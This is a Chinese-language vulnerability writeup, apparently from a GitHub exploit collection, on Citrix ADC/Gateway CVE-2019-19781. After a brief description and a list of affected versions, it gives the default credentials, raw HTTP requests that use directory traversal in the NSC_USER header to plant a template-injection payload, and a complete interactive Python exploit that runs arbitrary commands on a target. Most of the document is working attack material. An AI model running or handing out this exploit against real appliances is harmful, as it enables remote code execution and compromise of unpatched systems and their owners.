


# Citrix 远程命令执行漏洞 CVE-2019-19781

## 漏洞描述

Citrix ADC（NetScalers）中的目录穿越错误，这个错误会调用perl脚本，perl脚本用于将XML格式的文件附加到受害计算机，因此产生远程执行代码。

## 漏洞影响

```
Citrix NetScaler ADC and NetScaler Gateway version 10.5
Citrix ADC and NetScaler Gateway version 11.1 , 12.0 , 12.1
Citrix ADC and Citrix Gateway version 13.0
```

## 漏洞复现

访问 `https://target-ip` 或 `http://target-ip`登录系统，默认用户和密码登录：`nsroot/nsroot`。

利用目录穿越写入命令语句到`newbm.pl`文件中：

```
POST /vpns/portal/scripts/newbm.pl HTTP/1.1
Host: target-ip
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: ../../../netscaler/portal/templates/15ffbdca
Content-Length: 89
 
url=http://example.com&title=15ffbdca&desc=[% template.new('BLOCK' = 'print `whoami`') %]
```



GET方式访问写入的xml文件：

```
GET /vpns/portal/15ffbdca.xml HTTP/1.1
Host: 50.202.211.151
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.23.0
NSC_NONCE: nsroot
NSC_USER: nsroot
```



## 漏洞EXP

```python
#!/usr/bin/env python
# https://github.com/mpgn/CVE-2019-19781
# # #

import requests
import string
import random
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

print("CVE-2019-19781 - Remote Code Execution in Citrix Application Delivery Controller and Citrix Gateway")
print("Found by Mikhail Klyuchnikov")
print("")

if len(sys.argv) < 2:
  print("[-] No URL provided")
  sys.exit(0)

while True:
    try:
      command = input("command > ")

      random_xml = ''.join(random.choices(string.ascii_uppercase + string.digits, k=12))
      print("[+] Adding bookmark", random_xml + ".xml")

      burp0_url = sys.argv[1] + "/vpn/../vpns/portal/scripts/newbm.pl"
      burp0_headers = {"NSC_USER": "../../../../netscaler/portal/templates/" +
                      random_xml, "NSC_NONCE": "c", "Connection": "close"}
      burp0_data = {"url": "http://exemple.com", "title": "[%t=template.new({'BLOCK'='print `" + str(command) + "`'})%][ % t % ]", "desc": "test", "UI_inuse": "RfWeb"}
      r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data,verify=False)

      if r.status_code == 200:
        print("[+] Bookmark added")
      else:
        print("\n[-] Target not vulnerable or something went wrong")
        sys.exit(0)

      burp0_url = sys.argv[1] + "/vpns/portal/" + random_xml + ".xml"
      burp0_headers = {"NSC_USER": "../../../../netscaler/portal/templates/" +
                       random_xml, "NSC_NONCE": "c", "Connection": "close"}
      r = requests.get(burp0_url, headers=burp0_headers,verify=False)

      replaced = re.sub('^&#.*&#10;$', '', r.text, flags=re.MULTILINE)
      print("[+] Result of the command: \n")
      print(replaced)

    except KeyboardInterrupt:
            print("Exiting...")
            break
```

